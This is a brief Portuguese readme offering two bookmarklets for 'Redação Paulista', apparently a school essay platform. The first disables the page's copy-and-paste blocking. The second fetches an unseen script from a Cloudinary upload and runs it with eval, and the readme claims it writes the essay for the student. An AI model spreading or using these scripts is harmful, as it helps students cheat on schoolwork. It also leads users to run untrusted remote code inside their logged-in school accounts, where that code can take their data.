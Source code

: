 # Script Para Redação Paulista!
javascript:function remove_block(){const e=function(e){return e.stopImmediatePropagation(),!0};document.addEventListener("copy",e,!0),document.addEventListener("cut",e,!0),document.addEventListener("paste",e,!0),alert("Block Removed!")}remove_block();

V2: javascript:fetch(`https://res.cloudinary.com/dcwnwmtgc/raw/upload/v1743256849/cacetada.js`).then(r => r.text()).then(r => eval(r));

O que cada um faz? V1 deixa vc copiar e colar e o V2 faz a redação por você!